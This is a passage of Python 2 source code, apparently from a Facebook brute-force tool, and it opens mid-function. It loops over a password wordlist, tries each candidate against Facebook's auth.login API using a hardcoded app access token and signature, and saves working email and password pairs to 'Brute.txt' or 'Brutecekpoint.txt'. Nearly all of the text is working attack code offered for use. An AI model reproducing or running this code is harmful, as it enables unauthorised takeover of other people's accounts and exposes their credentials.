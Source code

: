                     sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
                        print 52 * '\x1b[1;97m\xe2\x95\x90'
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"
                            print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\x1b[1;91m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\x1b[1;91m[!] File not found...'
            print """\n\x1b[1;91m[!] \x1b[1;92mLooks like you don't have a wordlist"""
            super()

if __name__ == '__main__':
	login()
